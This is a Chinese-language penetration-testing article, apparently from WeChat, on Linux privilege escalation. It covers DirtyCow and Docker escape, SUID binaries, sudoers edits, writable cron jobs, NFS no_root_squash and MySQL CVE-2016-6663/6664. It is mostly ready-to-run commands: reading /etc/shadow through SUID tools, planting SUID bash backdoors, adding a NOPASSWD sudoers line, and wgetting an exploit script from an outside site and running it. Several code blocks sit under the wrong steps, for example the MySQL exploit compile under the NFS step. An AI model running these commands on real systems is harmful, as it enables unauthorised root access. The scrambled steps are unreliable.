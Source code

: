 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s?__biz=MzA3NzE2MjgwMg==&mid=2448906593&idx=1&sn=6345baa99eaaebab481a05f71685128c&chksm=8b55c93cbc22402a2b698656c1deedf88738e3a27e47aa7dcf987a941a82d2a9c1522651cf16&mpshare=1&scene=1&srcid=0104lpty31Xs7aWYBfWwNPjt&sharer_sharetime=1609720573259&sharer_shareid=c051b65ce1b8b68c6869c6345bc45da1&key=3c9189d1b71985a50fed8abcee5379f7ab59c2a1b0289985f0d001c54e3323c7c7fb55e4eb380616ffcdfc13ccd995d34de4f617b936fc73f68d3a7251e629a773e443e8072447f0eb86353cab9b1f76c2f90a1916e8b9cb22695eac46c24ed952b367dbb222d1dcad34d65d8905650b5914733c01f5bff64dae19438e79e70a&ascene=1&uin=ODk4MDE0MDEy&devicetype=Windows+10+x64&version=63010029&lang=zh_CN&exportkey=AbKiI0Uz1ApPR9dZcZNIeE4%3D&pass_ticket=yy556pu%2Bp4W4mbvK7Q3O6PIbolc7ebdCh%2F3poyqaL0RGTca9FUoYwlT9SUXPGlGT&wx_header=0&fontgear=2)

在渗透测试过程中，提升权限是非常关键的一步，攻击者往往可以通过利用内核漏洞 / 权限配置不当 / root 权限运行的服务等方式寻找突破点，来达到提升权限的目的。

**1、内核漏洞提权**

提起内核漏洞提权就不得不提到脏牛漏洞（Dirty Cow），是存在时间最长且影响范围最广的漏洞之一。低权限用户可以利用该漏洞实现本地提权，同时可以通过该漏洞实现 Docker 容器逃逸，获得 root 权限的 shell。

**1.1 本地内核提权**

（1）检测内核版本

```
# 查看系统发行版本
lsb_release -a
# 查看内核版本
uname -a
```

(2) 下载，编译生成 exp 文件

```
bypass@ubuntu:~$ make
```

（3）执行成功，返回一个 root 权限的 shell。

![](https://mmbiz.qpic.cn/mmbiz_png/ia0LvkyJzB4nrDf4CnLaaKjsjm6TDibALFsaeuKumWVDMNm8Enicva4V2ecQew1Z001ibWDicqTwZgkyowWqtnQ061w/640?wx_fmt=png)

**1.2 利用 DirtyCow 漏洞实现 Docker 逃逸**

（1）进入容器，编译 POC 并执行：

![](https://mmbiz.qpic.cn/mmbiz_png/ia0LvkyJzB4nrDf4CnLaaKjsjm6TDibALF58sMyib2SRGOVetT11nyQq7S5A2KlaOcacozIic4zOtSgjEQkvxiaWqeg/640?wx_fmt=png)

（2）在攻击者机器上，成功接收到宿主机反弹的 shell。

![](https://mmbiz.qpic.cn/mmbiz_png/ia0LvkyJzB4nrDf4CnLaaKjsjm6TDibALF8qxyTZricJPuziacvwVWr6aiawSibrm5tcaXeUYT4IVAkAD6dHia4NdhWdg/640?wx_fmt=png)

**1.3 Linux 提权辅助工具**

github 项目地址：

```
https://github.com/mzet-/linux-exploit-suggester.git
```

（1）根据操作系统版本号自动查找相应提权脚本

```
wget https://raw.githubusercontent.com/mzet-/linux-exploit-suggester/master/linux-exploit-suggester.sh -O les.sh
```

![](https://mmbiz.qpic.cn/mmbiz_png/ia0LvkyJzB4nrDf4CnLaaKjsjm6TDibALF1ic0UKhKEhx670FDiaPDzNvzrPViadyTNzia6eP1ykyBPHdMx8A0qk00rA/640?wx_fmt=png)

（2）根据提示下载 poc，编译执行。

![](https://mmbiz.qpic.cn/mmbiz_png/ia0LvkyJzB4nrDf4CnLaaKjsjm6TDibALFAyvhGKOLAnjUGFNbrUw5adTh1HHV6kv4ibwHpPWusOBaBjJ2BM0Bvmw/640?wx_fmt=png)

**2、利用 SUID 提权**

SUID 是一种特殊权限，可以让调用者在执行过程中暂时获得该文件拥有者的权限。如果可以找到并运行 root 用户所拥有的 SUID 的文件，那么就可以在运行该文件的时候获得 root 用户权限。

（1）在 Linux 中查找可以用来提权的 SUID 文件

```
find / -perm -u=s -type f 2>/dev/null
```

（2）通过 find 以 root 权限执行命令

![](https://mmbiz.qpic.cn/mmbiz_png/ia0LvkyJzB4nrDf4CnLaaKjsjm6TDibALFuicEtSF2bia0pOtgVicTq486CKffoenIguJ3wakX63M5mdGicYoaxD0uUg/640?wx_fmt=png)

可用作 Linux 提权的命令及其姿势:

```
#Find
find pentestlab -exec whoami \;
#Vim
vim.tiny /etc/shadow
#awk
awk 'BEGIN{system("whoami")}'
#curl
curl file:///etc/shadow
#Bash
bash -p  
#Less
less /etc/passwd
#Nmap
nmap --interactive
```

**3、SUDO 提权**

普通用户在使用 sudo 执行命令的过程中，会以 root 方式执行命令。在很多场景里，管理员为了运维管理方便，sudoer 配置文件错误导致提权。

（1）设置 sudo 免密码

```
$vi /etc/sudoers
在最后一行添加：bypass ALL=(ALL:ALL) NOPASSWD:ALL
```

（2）查看 sudo 的权限

![](https://mmbiz.qpic.cn/mmbiz_png/ia0LvkyJzB4nrDf4CnLaaKjsjm6TDibALFPv7mfxwlM14QIdlFDFcY55OTntWwLZlfjQb8V9JB1KITE2AKClgP5w/640?wx_fmt=png)

**4、计划任务**

如果可以找到可以有权限修改的计划任务脚本，就可以修改脚本实现提权。本质上，就是文件权限配置不当。

（1）查看计划任务，找到有修改权限的计划任务脚本。

```
ls -l /etc/cron*
more /etc/crontab
```

```
cp /bin/bash /tmp/shell
chmod u+s /tmp/shell
```

![](https://mmbiz.qpic.cn/mmbiz_png/ia0LvkyJzB4nrDf4CnLaaKjsjm6TDibALFjge4yK2N9zQzrrB52xwld2XVhsHBZb057Syt8ibT9585YXg85GCaHLg/640?wx_fmt=png)

（2）在 mysqlback.sh 添加 SUID shell 后门，当定时任务以 root 再次执行的时候，可以获取 root 权限。  

```
sudo showmount -e 10.1.1.233
```

**5、NFS 提权**

当服务器中存在 NFS 共享，开启 no_root_squash 选项时，如果客户端使用的是 root 用户，那么对于共享目录来说，该客户端就有 root 权限，可以使用它来提升权限。

（1）查看 NFS 服务器上的共享目录

```
sudo mkdir -p /tmp/data
sudo mount -t nfs 10.1.1.233:/home/bypass /tmp/data
cp /bin/bash /tmp/data/shell
chmod u+s /tmp/data/shell
```

（2）创建本地挂载目录，挂载共享目录。使用攻击者本地 root 权限创建 Suid shell。

```
cd /var/www/html/
gcc mysql-privesc-race.c -o mysql-privesc-race -I/usr/include/mysql -lmysqlclient
./mysql-privesc-race test 123456 localhost testdb
```

![](https://mmbiz.qpic.cn/mmbiz_png/ia0LvkyJzB4nrDf4CnLaaKjsjm6TDibALFpGIlpOaOpy7j2fth0VabicibyFA8r9OsGsA2ZuItfmcjvm3rsvugEUWg/640?wx_fmt=png)

（3）回到要提权的服务器上，使用普通用户使用 - p 参数来获取 root 权限。

![](https://mmbiz.qpic.cn/mmbiz_png/ia0LvkyJzB4nrDf4CnLaaKjsjm6TDibALFfVG7claRvJKuKu0OH6hicIKw2V0ribPEUSNtXuY2HLedoILcg5KZdvbw/640?wx_fmt=png)

**6、MySQL 提权**

MySQL 提权方式有 UDF 提权，MOF 提权，写入启动项提权等方式，但比较有意思的是 CVE-2016-6663、CVE-2016-6664 组合利用的提取场景，可以将一个 www-data 权限提升到 root 权限。

（1）利用 CVE-2016-6663 将 www-data 权限提升为 mysql 权限：

```
wget http://legalhackers.com/exploits/CVE-2016-6664/mysql-chowned.sh
chmod 777 mysql-chowned.sh
./mysql-chowned.sh /var/log/mysql/error.log
```

（2）利用 CVE-2016-6664 将 Mysql 权限提升为 root 权限：